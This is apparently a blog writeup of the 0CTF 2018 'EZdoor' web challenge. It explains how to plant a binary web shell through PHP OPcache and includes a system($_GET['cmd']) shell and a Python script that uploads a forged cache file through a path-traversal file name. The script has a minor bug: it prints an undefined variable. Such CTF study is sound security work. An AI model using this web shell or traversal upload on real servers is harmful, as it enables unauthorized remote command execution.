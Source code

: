 ```yaml
---
layout: post
title:  "0CTF - EZdoor Web Challenge Writeup"
comments: true
image: ''
date:   2018-04-10 00:06:31
tags:
- Web Security, CTF, 0CTF 2018, 0CTF Quals, PHP OPcache, PHP, Binary-PHP
description: 'Sunshine CTF 2018 web challenges writeup'
categories:
- Web, CTF, 0CTF Quals, Web Security
---
```


Challenge name: `EZdoor`

Link: `http://202.120.7.217:9527`

In this challenge, we are greeted with the <a href="https://github.com/gokulkrishna01/gokulkrishna01.github.io/tree/master/scripts/0CTF/source.php">source code</a>:

Breaking down the code,

{% highlight php %}

if(!file_exists($dir . "index.php")){
  touch($dir . "index.php");
}

{% endhighlight %}

does create a new `index.php` file if not created already.

This question was kind of similar to the one we had for ASIS CTF finals couple of years back. This made me realise that it was related to OPCache and since there was a <a href="http://gosecure.net/2016/04/27/binary-webshell-through-opcache-in-php-7/">writeup</a>, probably a research, on the same.

So going line by line, we were provided with 5 different functionalities - `pwd` for the `path`, `phpinfo` which provides the info page, `reset` to clear the directory, `time` to show the timestamp (this will prove to be important later) & `upload` option to upload our file.

Understanding the problem deeper, `OPCache` is the built-in caching engine with PHP 7.0.* versions. It not only compiles PHP scripts and sets the resulting bytecode in memory but also, offers caching in the filesystem when specifying a destination folder in `PHP.ini` file.

You can find the line `opcache.file_cache=/tmp/opcache` in `PHP.ini` file. Inside this folder, `OPCache` stores its compiled PHP scripts in the same folder where the PHP code is written. So essentially, a compiled version of `/var/www/index.php` will be stored in `/tmp/opcache/<system_id>/var/www/index.php.bin`.

To generate a `phpbin` file, create a `index.php` file with contents:


```
<?php
   system($_GET['cmd']);
?>
```


and then, `php -S 127.0.0.1:8080` and a simple `wget 127.0.0.1:8080` generated the `phpbin` file.

Also for this, the `php.ini` files has to be updated in the following way:


```
opcache.enable=1
opcache.validate_timestamps=1
opcache.file_cache= "/var/www/html/cache"
opcache.file_cache_only=1
```

Now to calculate the `system_id`, we have got a tool over <a href="https://github.com/GoSecure/php7-opcache-override">here</a> and with that, we can identify what we want to calculate.

To calculate the above, the parameters were `php_version = 7.0.28` , `zend_extension_id: API320151012,NTS` and `zend_bin_id: BIN_SIZEOF_CHAR48888`.

Calculation of `system_id` : `digest = hashlib.md5(php_version + zend_extension_id + zend_bin_id).hexdigest()`

Now about solving the challenge, firstly, to control the cache file, we mainly need to get hold of two parameters, `timestamp` and `opchache_ID`.


After generating the system ID, grab the `timestamp`. Set this to the OPcached web-shell (index.php.bin) to bypass opchache.validation_timestamp and upload it.

The final script was:

```
import struct
import requests

URL = "http://202.120.7.217:9527/"
sid = "7badddeddbd076fe8352e80d8ddf3e73"
UID = "c607e0c365ae4a0ea516aadaad3db7adfe45df9c" #constant
SID = "7badddeddbd076fe8352e80d8ddf3e73" #SystemID calculated

requests.get(URL+"?action=reset")
print "Reset done"


timestamp = int(requests.get(URL+"?action=time").text)
print "Time stamp: " + str(ts)


f = open("index.php.bin").read()

path = f[:8]+sid+f[40:64]+struct.pack("I", timestamp)+f[68:] #this is done to replace the SystemID and timestamp with a custom one in an already existing one

requests.post(
    URL+"?action=upload&name=../../../../../tmp/cache/"+SID+"/var/www/html/sandbox/"+UID+"/index.php.bin"
    , files=dict(file=path)
    )
```


Reach me out on <a href="https://twitter.com/gkgkrishna33/status/991205002562519041">Twitter</a> for more queries.
